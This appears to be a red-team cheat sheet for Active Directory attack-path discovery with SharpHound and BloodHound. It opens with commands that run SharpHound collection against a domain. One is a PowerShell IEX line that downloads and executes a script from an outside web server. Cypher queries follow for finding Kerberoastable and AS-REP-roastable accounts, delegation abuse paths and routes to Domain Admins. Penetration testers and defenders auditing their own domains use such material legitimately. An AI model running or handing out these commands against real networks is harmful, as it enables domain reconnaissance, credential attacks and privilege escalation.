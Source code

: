 ```
execute-assembly C:\tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c All -D imsonia.io 
IEX(System.Net.WebClient.DownloadString('http://webserver:4444/SharpHound.ps1'));Invoke-CollectionMethod All
```

### Kerberoasting
```
MATCH (u:User {hasspn:true}) RETURN u
MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
MATCH (u:User {hasspn:true}) MATCH (g:Group) WHERE g.name CONTAINS 'DOMAIN ADMINS' MATCH p = shortestPath( (u)-[*1..]->(g) ) RETURN p


```


### ASREPRoasting
```
MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

### Unconstrained Delegation
```
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-[*1..]->(c)) RETURN p

```
### Constrained Delegation
```
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
MATCH (u:User {owned:true}), (c:Computer {name: "WEB-2.CYBERBOTIC.IO"}), p=shortestPath((u)-[*1..]->(c)) RETURN p
```
### Show all high value target group             
```
MATCH p=(n:User)-[r:MemberOf*1..]->(m:Group {highvalue:true}) RETURN p

```
### Find if unprivileged users have rights to add members into groups:        
```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AddMember*1..]->(m:Group)) RETURN p

```

